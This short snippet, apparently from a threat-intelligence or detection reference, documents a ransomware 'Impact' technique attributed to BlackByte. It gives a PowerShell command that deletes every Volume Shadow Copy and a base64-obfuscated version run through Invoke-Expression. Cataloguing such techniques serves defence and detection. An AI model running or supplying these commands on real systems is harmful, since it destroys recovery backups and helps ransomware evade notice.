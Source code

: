 # Impact
## Remove Volume Shadow Copies
```powershell
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```
The threat actor TTP is associated with BlackByte and executes the above as base64.
```powershell
powershell.exe $x = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RwBlA HQALQBXAG0AaQBPAGIAagBlAGMAdAAg'+'AFcAaQBuADMAMgBfAFMAaABhAGQAb wB3AGMAbwBwAHkAIAB8AC'+'AARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUAYwB0A CAAewAkA'+'F8ALgBEAGUAbABlAHQAZQAoACkAOwB9AA=='));Invoke-Expression $x
```

